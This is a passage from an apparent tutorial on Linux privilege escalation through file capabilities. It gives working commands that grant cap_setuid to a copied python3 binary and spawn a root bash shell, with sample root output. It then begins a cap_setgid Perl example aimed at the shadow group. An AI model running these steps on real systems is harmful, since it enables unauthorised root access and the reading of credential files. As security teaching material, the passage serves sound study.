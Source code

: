 ```shell
cp $(which python3) . 
```

Then we'll assign the `cap_setuid` capability to the python3 executable that's in the current folder:

```shell
sudo setcap cap_setuid+ep ./python3 
```

We can review the capability with the following:

```shell
getcap ./python3
```

Run a bash shell with `setuid` of `0` as shown in `os.setuid(0)` which is the root UID, and bash with `os.system("/bin/bash")`:

```shell
./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

This will also result in root:

```sh
root@pwn:~# id
uid=0(root) gid=1000(user) groups=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),122(lpadmin),135(lxd),136(sambashare)
```

# Privilege Escalation via CAP_SETGID

The CAP_SETGID capability allows a process to set the group ID (GID) of a process. This capability is similar to CAP_SETUID but applies to group IDs. It allows a process to change its effective group ID, real group ID, or saved set-group-ID. This is important for operations that need to change the group identity of a process, enabling it to perform actions on behalf of a different group.

## Perl Example

Copy the Perl binary to the current folder:

```sh
cp $(which perl) . 
```

The capability `CAP_SETGID` allows us to **set the `EGID` of the created process**.

```shell
user@pwn:~$ sudo /usr/sbin/setcap cap_setgid+ep ./perl
user@pwn:~$ getcap -r ./perl
./perl = cap_setgid+ep
```

View the groups:

```shell
user@pwn:~$ cat /etc/group | grep shadow
shadow:x:42:
```
